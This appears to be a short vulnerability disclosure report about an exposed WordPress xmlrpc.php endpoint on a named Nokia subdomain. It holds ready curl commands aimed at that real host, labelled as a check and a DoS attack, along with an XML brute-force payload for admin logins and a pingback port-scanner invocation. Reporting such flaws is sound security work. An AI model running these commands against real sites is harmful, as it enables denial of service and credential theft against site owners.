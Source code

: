 # Xmlrpc.php 

# Description :
##### Wordpress that have xmlrpc.php enabled for pingbacks, trackbacks, etc. can be made as a part of a huge botnet causing a major DDOS and Start Brute Force attack . The website https://wavelite-selector.networks.nokia.com has the xmlrpc.php file enabled
##### In order to determine whether the xmlrpc.php file is enabled or not, using the Repeater tab in Burp, send the request below.

```
$ curl -d @do.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```
<img src='src/xmlrpc_first.png'>

#### Notice that a successful response is received showing that the xmlrpc.php file is enabled.

### Now i will use 2 attacks (Dos Attack) and (Brute Force)
## Dos Attack
```
$ curl -d @dos.txt https://wavelite-selector.networks.nokia.com/xmlrpc.php
```
#### Response :
<img src='src/nokia_xmlrpc_dos.png'>
## brute force
#### payload
```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
<img src='src/ccw.png'>
## Port scanning
#### Download This Tool https://github.com/FireFart/WordpressPingbackPortScanner 
```
./wppps.rb https://wavelite-selector.networks.nokia.com/xmlrpc.php https://wavelite-selector.networks.nokia.com/xmlrpc.php
```
## Reference :
* https://medium.com/@protector47/how-to-hack-wordpress-website-via-xmlrpc-php-61c813fa3740

# Impact
### This can be automated from multiple hosts and be used to cause a mass DDOS attack on the victim.
### this method is also used for brute force attacks to stealing the admin credentials and other important credentials
